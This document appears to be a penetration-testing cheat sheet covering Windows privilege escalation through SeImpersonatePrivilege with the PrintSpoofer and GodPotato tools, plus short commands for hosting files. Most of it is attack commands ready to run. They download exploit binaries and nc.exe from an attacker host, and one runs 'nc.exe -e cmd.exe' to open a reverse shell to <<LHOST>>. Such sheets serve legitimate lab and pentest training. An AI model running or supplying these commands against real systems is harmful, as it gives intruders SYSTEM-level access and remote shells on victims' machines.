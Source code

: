 ```
schtasks /query /fo LIST /v
```

### Exploits

#### SeImpersonatePrivilege

##### PrintSpoofer

```
iwr -uri http://<<IP>>/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

```
.\PrintSpoofer64.exe -i -c powershell.exe
```

##### GodPotato

For GodPotato-NET4.exe to work you need to transfer nc.exe to victim machine.

```
iwr -uri http://<<IP>>:<<PORT>>/nc.exe -Outfile nc.exe
```

```
iwr -uri http://<<IP>>:<<PORT>>/GodPotato-NET4.exe -Outfile godpotato.exe
```

```
.\godpotato.exe -cmd "C:\Users\Public\nc.exe -e cmd.exe <<LHOST>> <<LPORT>>"
```




# File Transfers

## Creating a Web Server

### Python3

```
python3 -m http.server <<PORT>>
```
### PHP

```
php -S 0.0.0.0:<<PORT>>
```
### Ruby

```
ruby -run -ehttpd . -p<<PORT>>
```
